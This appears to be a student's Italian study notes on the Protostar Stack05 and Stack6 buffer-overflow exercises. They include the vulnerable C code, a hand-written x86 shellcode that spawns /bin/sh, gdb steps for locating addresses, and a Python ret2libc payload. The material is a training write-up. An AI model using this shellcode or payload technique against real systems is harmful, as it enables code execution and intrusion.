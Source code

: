 - Qui ci sarebbero altri esercizi prima che non ho inserito per motivi di voglia e semplicità come quelli sulle sql inj
## Protostar - Stack05
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
- Viene allocato un buffer di 64 caratteri sullo stack
- Si riempie il buffer con dati letti da terminale
	- input non controllato
- **gets()**
	- gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with \0. **No check for buffer overrun is performed** (see BUGS below).
	- BUGS **Never use gets()**. Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer. It is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.

## Memory Layout
- TODO: aggiungere tutta la parte sul memory layout
## Shellcode
- "/bin/sh": devo codificare in memoria questa stringa
	- ricordiamoci che siamo in un contesto little endian
	- "//sh": codifico prima questi 4 byte
		- 0x68732F2F
	- "/bin"
		- 0x6E69622F
- shellcode:
```s
	shellcode:
		xor %eax, %eax //xorando due valori uguali ottengo 0
		push %eax //metto eax sullo stack
		push $0x68732F2F // //sh
		push $0x6E69622F
		push %esp, %ebx
		mov %eax, %ecx
		mov %eax, %edx
		mov $0xb, %al
		int $0x80
		xor %eax, %eax
		inc %eax
		int $0x80
```


## Protostar - Stack6
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
- **getpath**
	- viene definito un buffer di 64 caratteri
	- viene definita una variabile senza segno int
	- si stampa un prompt
	- si legge un input da terminale e lo si salva in buffer
	- "builtin_return_address(0);": macro definita dal compilatore che fa il return dell'indirizzo dello stack frame corrente
	- Dopo controllo che l'indirizzo di ritorno sia nell'area dello stack
- A differenza della sfida precedente qui viene implementata una contromisura difensiva cioè controlla che l'indirizzo di ritorno non sia un valore dello stack cioè compreso in 0xbf000000 – 0xbffffff.
	- Se lo è lo identifica come buffer overflow e usciamo 
	- Per farlo utilizziamo la maschera 0xbf000000 che azzera tutti i bit tranne gli ultimi 2
- In conclusione non è possibile eseguire codice sullo stack
	- La libreria del C fornisce al programmatore almeno una funzione wrapper per ciascuna chiamata di sistema disponibile

### Indirizzo di System
- Per individuare l'indirizzo di system da gdb eseguire
    - p system
    - risultato:0xb7ecffb0
### Risoluzione
- breakpoint all'inizio
- Ricostruisco il layout dopo il prologo
- localizzo buffer e ret
- Continuo fino all'epilogo
- Ricostruisco il layout prima del ritorno 
#### Indirizzo di buffer
- Per individuarlo vado a mettere un brackpoint prima della gets dato che so che buffer viene passato come primo parametro e che quindi il sui indirizzo sarà nel registro eax
    - risultato: 0xb7f0186e 
    - risultato: 0xbffffc8c
    - \x6e\x18\xf0\xb7
#### Indirizzo di ret
- nel codice vediamo come ret sia uguale a -0xc($ebp) questo significa che l'indirizzo si trova in $ebp - 12
    - risultato: 0xbffffccc
#### Payload corretto
- Quello del prof fa riferimento ad indirizzi differenti, questo è quello aggiornato rispetto ai miei indirizzi
```python
#!/usr/bin/python

print '/bin//sh\x00' + 'a' * 71 + '\xb0\xff\xec\xb7' + '\x42\x42\x42\x42' + '\x8c\xfc\xff\xbf'

```


